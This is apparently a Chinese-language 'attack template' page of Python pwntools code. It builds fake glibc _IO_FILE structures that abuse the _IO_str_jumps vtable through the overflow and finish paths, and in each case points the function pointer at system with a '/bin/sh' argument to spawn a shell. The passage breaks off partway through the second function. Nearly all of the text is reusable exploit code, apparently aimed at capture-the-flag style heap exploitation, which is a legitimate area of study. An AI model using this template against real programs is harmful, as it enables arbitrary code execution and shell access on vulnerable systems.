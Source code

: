 ### 攻击模板

```python
from pwn import *
from base_data import *

# 使用overflow触发
def IOoverflow(_IO_str_jumps_addr, fun_addr, param = None, payload_addr = None):
    '''
        _IO_str_jumps_addr: _IO_str_jumps地址
        fun_addr: 函数地址
        param: 函数参数, 若param为None, 则使用payload_addr内置/bin/sh
        payload_addr: 内置/bin/sh地址, 只有在param为None时有效
    '''
    if (param is None and payload_addr is None):
        raise ValueError("必须设置 param 或 payload_addr 参数")

    if param is None:
        # 设置参数
        param = payload_addr + 0x30
        pass
    
    payload = b''
    payload = set_value(payload, 0x0, 0)                            # fake_IO_FILE->_flags = 0
    payload = set_value(payload, 0x20, 0)                           # fake_IO_FILE->_IO_write_base = 0
    payload = set_value(payload, 0x28, int((param - 100) / 2 + 1))  # fake_IO_FILE->_IO_write_ptr = (binsh地址 - 100) / 2 + 1
    payload = set_value(payload, 0x30, BINSH)                       # 内置/bin/sh
    payload = set_value(payload, 0x38, 0)                           # fake_IO_FILE->_IO_buf_base = 0
    payload = set_value(payload, 0x40, int((param - 100) / 2))      # fake_IO_FILE->_IO_buf_end = (binsh地址 - 100) / 2
    payload = set_value(payload, 0xC0, 0)                           # fake_IO_FILE->_mode = 0
    payload = set_value(payload, 0xD8, _IO_str_jumps_addr)          # fake_IO_FILE->vtable = &_IO_str_jumps
    payload = set_value(payload, 0xE0, fun_addr)                    # fake_IO_FILE + 0xE0 = &system
    
    return payload

# 使用IOfinish触发
def IOfinish(_IO_str_jumps_addr, fun_addr, param = None, payload_addr = None):
    '''
        _IO_str_jumps_addr: _IO_str_jumps地址
        fun_addr: 函数地址
        param: 函数参数, 若param为None, 则使用payload_addr内置/bin/sh
        payload_addr: 内置/bin/sh地址, 只有在param为None时有效
    '''
    if (param is None and payload_addr is None):
        raise ValueError("必须设置 param 或 payload_addr 参数")

    if param is None:
        # 设置参数
        param = payload_addr + 0x30
        pass
    
    payload = b''
    payload = set_value(payload, 0x0, 0);                           # fake_IO_FILE->_flags = 0
    payload = set_value(payload, 0x20, 0);                          # fake_IO_FILE->_IO_write_base = 0
    payload = set_value(payload, 0x28, 1);                          # fake_IO_FILE->_IO_write_ptr = 1
    payload = set_value(payload, 0x30, BINSH)                       # 内置/bin/sh
```